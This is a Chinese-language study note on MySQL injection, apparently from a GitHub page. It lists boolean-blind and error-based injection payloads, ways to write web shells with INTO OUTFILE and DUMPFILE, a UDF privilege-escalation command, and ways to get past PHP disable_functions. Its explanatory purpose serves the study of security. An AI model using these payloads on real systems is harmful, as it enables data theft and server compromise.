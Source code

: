 - @为用户变量，使用`SET @var1=1`赋值
- @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`

#### 注入/绕过常用的函数

1. 基于布尔SQL盲注
   - `left(database(),1)>'s'`
   - `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
   - `ascii(substr((select database()),1,1))=98`
   - `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
   - `regexp`正则注入 `select user() regexp '^[a-z]';`
   - `select user() like 'ro%'`
2. 基于报错的SQL盲注
   - `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;`

#### MySQL存储过程

#### 各种写shell的问题

1. 写shell用什么函数？
   - `select ' into outfile 'D:/shelltest.php'`
   - `dumpfile`
   - `file_put_contents`
2. outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 https://www.cnblogs.com/milantgh/p/5444398.html
3. dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4. sleep()能不能写shell？
5. 写shell的条件？
   - 用户权限
   - 目录读写权限
   - 防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
   - open_basedir: 将用户可操作的文件限制在某目录下

#### 

### 注入类型

1. 基于报错注入
2. 基于布尔的注入，根据返回页面判断条件真假的注入
3. 基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4. 宽字节注入
5. 联合查询，可以使用 union 的情况下的注入。
6. 堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理

通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。
